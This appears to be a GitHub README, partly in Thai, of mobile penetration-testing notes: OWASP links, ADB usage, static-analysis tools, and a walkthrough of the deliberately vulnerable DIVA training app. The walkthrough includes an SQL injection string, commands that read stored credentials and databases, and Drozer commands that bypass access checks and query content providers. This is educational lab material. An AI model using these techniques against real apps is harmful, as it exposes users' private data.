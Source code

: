 # Mobile Application Security
รวมเอกสารและคำสั่งต่างๆ ที่ใช้สำหรับการทำ Mobile Pen-Test

## เอกสารที่เกี่ยวข้อง
* https://mas.owasp.org
* https://mas.owasp.org/MASVS/
* https://mas.owasp.org/MASTG/
* https://mas.owasp.org/checklists/
* https://cheatsheetseries.owasp.org/cheatsheets/Mobile_Application_Security_Cheat_Sheet.html

## Connect to Devices
1. Install ADB Wifi
2. Connect to Device with adb
    * adb connect [IP Address]:5555
    * adb devices -l
    * adb shell
    * adb shell pm list packages
3. Install application
    * adb install [Application Name].apk
    * adb -s emulator-5555 install helloWorld.apk
4. Upload file to device
    * adb push [local file] [remote file]
5. Download file to device
    * adb pull [local file] [remote file]
6. Backup application
    * adb backup <package name>
    * dd if=backup.ab bs=1 skip=24 | python -c "import zlib,sys;sys.stdout.write(zlib.decompress(sys.stdin.read()))" > backup.tar
7. Dump Logging
    * adb logcat -t 20
    * adb shell ps | grep -i diva (get process ID)
    * adb logcat | grep -i [Process ID]

## Diva Writeup
### Insecure Logging
- adb logcat -t 20
- adb ps
- adb logcat | grep [processID]

### Hardcoding Issues – Part 1
- jadx diva.apk
- cd diva/sources/jakhar/aseem/diva
- cat HardCodeActivity.java

### Insecure Data Storage – Part 1
- adb shell
- cd /data/data/jakhar.aseem.diva/shared_pref
- cat jakhar.aseem.diva_preferences.xml

### Insecure Data Storage – Part 2
- adb shell
- cd /data/data/jakhar.aseem.diva/databases
- sqlite3 ids2
- .tables
- select * from myuser;

Insecure Data Storage – Part 3
- cd diva/sources/jakhar/aseem/diva
- cat InsecureDataStorage3Activity.java
- adb shell
- cd /data/data/jakhar.aseem.diva
- cat uinfo...

### Input Validation Issues – Part 1
- 1' OR '1'='1'--

### Input Validation Issues – Part 2
- file:///data/data/jakhar.aseem.diva/uinfo...

### Access Control Issues – Part 1
- cd resources
- cat AndroidManifest.xml
- adb shell am start -a jakhar.aseem.diva.action.VIEW_CREDS

### Access Control Issues – Part 2
- dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICreds2Activity --extra boolean check_pin false

### Access Control Issues – Part 3
- dz> run app.provider.finduri jakhar.aseem.diva
- dz> run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes
- dz> run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes --vertical
- dz> run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes --selection "_id=3"
- dz> run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes --projection "title,note"

## Tools for Static Analysis
- Androwarn (for Android)
    * python androwarn.py -h
    * python androwarn.py -i ./SampleApplication/bin/SampleApplication.apk -r html -v 3
    * python androwarn.py -i ./SampleApplication/bin/SampleApplication.apk -d -v 3
- QARK (for Android)
    * python qarkMain.py -h
    * python qarkMain.py -p qark/sampleApp/goatdroid/goatdroid.apk   --source=1
- [MobSF](MobSF/Readme.md)
